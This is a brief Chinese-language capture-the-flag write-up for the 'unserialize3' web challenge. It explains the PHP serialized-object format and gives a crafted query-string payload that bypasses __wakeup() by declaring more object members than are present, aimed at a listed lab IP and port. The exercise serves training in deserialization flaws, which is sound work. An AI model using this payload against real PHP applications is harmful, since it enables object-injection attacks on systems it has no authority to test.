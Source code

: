 **题名：**unserialize3
**地址：**攻防世界web高手进阶区第九题

# 解法
php序列化的函数为serialize。反序列化的函数为unserialize。
## 序列化简介
首先序列是一个保存和转储对象的字符串。序列化不保存方法。有对象模块和成员模块组成，对象模块可以写作：
O:对象长度:"对象名称":对象成员数:{成员1;成员2;……;}
成员可以写作：
s:字符串长度："字符串内容"
构造url。
要**绕过_wakeup()**需要使得成员数不够
111.198.29.45:40890/?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
